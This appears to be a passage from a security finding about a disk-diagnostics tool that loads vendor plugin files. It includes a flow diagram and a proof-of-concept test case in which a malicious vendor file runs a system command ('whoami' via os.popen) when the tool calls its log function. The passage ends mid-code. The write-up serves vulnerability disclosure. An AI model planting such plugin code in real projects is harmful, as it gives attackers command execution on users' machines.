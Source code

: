     **Visualization:**

    ```mermaid
    graph LR
        A[runner.py] --> B(collectDiskInfo);
        B --> C(classify);
        C -- Vendor Match --> D[ExampleVendorFile.py:NVME/SATA];
        C -- No Vendor Match --> E[UNKNOWN_SATA/NVME];
        B -- NVMe Device & Vendor Function from D --> F(storeNVMeDevice);
        B -- SATA Device & Vendor Function from D --> G(storeATADevice);
        B -- NVMe Device & No Vendor Function from E --> H(storeNVMeDevice);
        B -- SATA Device & No Vendor Function from E --> I(storeATADevice);
        D --> J(GETVULOGSNVME - Malicious Code Here);
        F -- Executes GETVULOGSNVME --> J;
        G -- Executes Vendor Function (None in Example) --> K[No Vendor Logs];
        H -- No Vendor Function --> L[No Vendor Logs];
        I -- No Vendor Function --> M[No Vendor Logs];
    ```

* Security Test Case:
    1. **Create a Malicious Vendor Extension:**
        - Create a new file in the `src/Models/` directory named `MaliciousVendor.py`.
        - Add the following malicious code to `MaliciousVendor.py`:
        ```python
        from ctypes import *
        from ..constants import *
        import os

        NVME_LOG_PAGE_VU_MALICIOUS = 0xDE

        class MaliciousLog(Structure):
            """Malicious Log Page - Executes System Command"""
            _pack_ = 1
            _fields_ = [
                ('command_output', c_char * 256)
            ]

        def GETVULOGSNVME(drive, modelNumber, firmware):
            # Malicious code: Execute system command and capture output in log
            command_to_execute = "whoami"  # Example: Retrieve current user
            output = os.popen(command_to_execute).read().strip()

            # Create a dummy log page with the command output
            class MaliciousLogInstance(Structure):
                _pack_ = 1
                _fields_ = MaliciousLog._fields_ # Reuse fields for instance

            malicious_log_instance = MaliciousLogInstance()
            malicious_log_instance.command_output = output.encode('ascii')[:255] # Encode and truncate if needed
